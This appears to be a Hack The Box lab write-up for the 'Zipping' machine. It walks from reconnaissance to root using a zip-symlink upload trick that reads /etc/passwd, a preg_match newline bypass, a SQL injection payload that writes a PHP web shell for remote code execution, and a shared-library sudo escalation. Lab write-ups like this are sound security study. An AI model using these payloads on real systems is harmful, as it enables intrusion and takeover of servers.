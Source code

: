 ```yaml
---
title: Zipping Report
date: 2023-09-14 12:00:00 pm
categories: [HTB]
tags: [HTB, Linux, Medium, SQLi, RCE, LFI]

img_path: /assets/img/htb/writeups/zipping
---
```


## **Information gathering**

* * *
* * *

**Scope:** 10.10.11.229/32 (Linux)

**TCP Nmap scan:** 65,535 ports

* **Open ports**:
	* 22/ssh:
		* Banner grabbing
			- Version: OpenSSH_9.0p1 Ubuntu-1ubuntu7.3
				* [OpenSSH 9.4](https://www.openssh.com/txt/release-9.4)/[9.4p1](https://www.openssh.com/txt/release-9.4) (2023-08-10)
			- Codename: kinetic [codename.py](https://github.com/E1P0TR0/CVE-Machines_htb/blob/main/testing_tools/codename.py)
			- CVEs Version: [https://nvd.nist.gov/vuln/search/results?form_type=Advanced&cves=on&cpe_version=cpe:/a:openbsd:openssh:9.0p1](https://nvd.nist.gov/vuln/search/results?form_type=Advanced&cves=on&cpe_version=cpe:/a:openbsd:openssh:9.0p1)
	* 80/http:
		* Banner grabbing
			* Server: Apache/2.4.54 (Ubuntu)
			* Firefox
				![](firefox_interface.png)
			* Technologies
				* Programming Languages: PHP
				* JavaScript libraries: Jquery 3.4.1
			* Basic url scrapping
				![](url_scrapping_curl.png)
				* http://10.10.11.229/upload.php
					* Description: The application will only **accept zip files, inside them there must be a pdf file** containing your curriculum.
				* http://10.10.11.229/shop
					* Description: Zipping watching store (**Basic LFI vulnerable** [page]) [only .php files]

## **Vulnerability Assesment**

* * *
* * *

* http://10.10.11.229/upload.php (ZIP automatically decompressed upload)
	* [https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload](https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload)
		![](zip_symlinks_ht.png)
		* Steps:
			* ln -rs /etc/passwd reader.pdf
			* zip --symlinks reader.zip reader.pdf
			![](zip_lfi_pdf.png)
* Code analisys
	* (/shop/cart.php)
		![](cart_php.png)
		* preg_match: To bypass this check you could **send the value with new-lines urlencoded** (`%0A`) [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#preg_match-.](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#preg_match-.)
	* (/shop/index.php)
		![](index_php.png)
		* We can include any .php file in "page" parameter
	* Create phpinfo file in a directory with permissions and read it
		* Payload: ';select+'\<?php+phpinfo(); ?>'+into+outfile+'/var/lib/mysql/phpinfo.php';#1
			![](sqli_poc.png)
			![](sqli_out.png)

## **Exploitation**

* * *
* * *

* rektsu RCE
	* Payload: %0a';select '\<?php system($\_GET\["cmd"]); ?>' into outfile '/var/lib/mysql/rce_poc.php';#1
		![](rce_poc.png)

## **Post-exploitation**

* * *
* * *

* Rekztu user
	* Sudo binary without password (/usr/bin/stock)
		* Shared Libraries [https://tbhaxor.com/understanding-concept-of-shared-libraries/](https://tbhaxor.com/understanding-concept-of-shared-libraries/)
			![](lib_call.png)
			![](root.png)

## **Lateral movement**

* * *
* * *

## **Proof of concept**

* * *
* * *

* http://10.10.11.229/upload.php (ZIP automatically decompressed upload)
	* Bash script (zip_reader.sh)
		![](zip_lfi_poc.png)
* http://10.10.11.229/shop/cart.php & http://10.10.11.229/shop/index.php?page (SQLI and PHP include)
	* Python script
		![](sqli_rce_poc.png)
* Repository scripts [https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tools_Zipping](https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tools_Zipping)